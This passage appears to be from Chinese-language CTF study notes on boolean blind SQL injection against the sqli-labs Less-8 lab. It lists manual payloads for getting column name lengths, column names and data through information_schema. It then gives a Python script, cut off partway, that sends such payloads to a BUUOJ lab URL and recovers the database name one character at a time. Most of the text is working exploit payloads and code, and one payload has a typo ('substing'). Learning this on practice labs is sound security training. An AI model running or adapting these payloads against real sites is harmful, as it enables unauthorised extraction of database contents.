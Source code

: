 长度

`?id=1' and (select length(column_name) from information_schema.columns where table_name='target_table' limit Y,1)=x --+x为查询数字，同获取数据库长度 Y为第Y列开始`

名字

`?id=1' and ascii(substring((select column_name FROM information_schema.columns WHERE table_name='' limit Y,1),X,1))>=X1 --+ X是查询列名的第x个字符，x1与x的ascii比较，进行判断，Y为第Y个表开始`

获取数据

长度

`?id=1' and  (select length(column_name) from 库名.表名 limit Y,1)=x --+ x为查询数字,Y表示从第Y个数据开始 `

内容

`?id=1' and ascii(substing((select column_name from 库名.表名 LIMIT Y,1),X,1))>=x1 --+ X是查询数据内容的第x个字符，x1与x的ascii比较，进行判断，Y为第Y个数据开始`

手动似乎有些过于繁琐了，还是用脚本吧（）

###### 注入脚本

## 教学视频:[手把手教你学会SQL注入之布尔盲注Python脚本编写](https://www.bilibili.com/list/watchlater?oid=1851294346&bvid=BV1JW421w7WL&spm_id_from=333.880.top_right_bar_window_view_later.content.click)

  ~~搞了两三个小时终于出来了~~

根据sqli-labs Less8 ，可以更根据需求修改url 以及闭合方式

```python
import requests

global url
url="http://fca40d5f-175c-4f50-9c9a-9c5ab69a06a6.node5.buuoj.cn:81/Less-8/?id="
global chars
chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_@!#.-"


def send_payload(payload):
    r=requests.get(url+payload)
    r.encoding="utf-8"
    if "You are in..........." in r.text:
        return True
    return False

#库名长度
def get_database_name_length():
    length=0
    while True:
        payload=f"-1' OR(select length(database())={length}) --+" #这里1'and 也可以是-1'or 或者'or
        if send_payload(payload):
            print("数据库名长度为",length)
            return length
        length += 1

#库名
def get_database_name(length):
    database=""
    for i in range(1,length+1):
        for char in chars:
            payload=f"-1'or ascii((select substr(database(),{i},1)))={ord(char)} --+"
            if send_payload(payload):
                database=database+char
                #print("数据库名为",database)
                break
```